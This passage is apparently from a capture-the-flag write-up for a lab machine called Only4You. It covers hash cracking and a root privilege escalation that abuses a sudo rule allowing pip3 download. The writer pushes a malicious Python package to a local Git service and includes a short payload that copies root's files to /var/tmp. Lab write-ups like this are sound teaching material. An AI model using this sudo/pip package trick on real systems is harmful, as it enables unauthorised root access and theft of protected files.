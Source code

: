 ```
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?username=john HTTP/1.1" 200 -
```

And cracking those with john (after specifying that they were Raw-SHA256 hashes):

![](C:\Users\Mike\AppData\Roaming\marktext\images\2023-04-28-14-43-29-image.png)

## User Access and Root Priv-esc

Now that we have user access, one of the first things I check is sudo privileges:

```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Testing our access against the 127.0.0.1 service, we find that there is a repository with a .tar.gz already inside it!

![](C:\Users\Mike\AppData\Roaming\marktext\images\2023-04-28-14-46-21-image.png)

Downloading and taking a look at this `x.tar.gz` it is apparent that it is a pip exploit: [GitHub - wunderwuzzi23/this_is_fine_wuzzi: Demo of a malicious python package that will run code upon pip download or install](https://github.com/wunderwuzzi23/this_is_fine_wuzzi)

I am not sure if this was put by a person, but I will take that .tar.gz and use it to read the root flag. I just need to set up a public git repo, and then use `sudo pip3` to download it.

First, I created the repo in the GUI. Then in the command line I used the following commands:

```
git init
git add .
git commit -m "x"
git remote add origin http://127.0.0.1:3000/john/tmp.git
git push -u origin master

sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/tmp/raw/master/sh.tar.gz
```

My wuzzi payload was as follows:

```
def RunCommand():
    print(os.system('ls -al /root/*'))
    os.system("cat /root/*txt > /var/tmp/f")
```

I did not see the `print()` output, but I did get the `f` file created with the root flag!
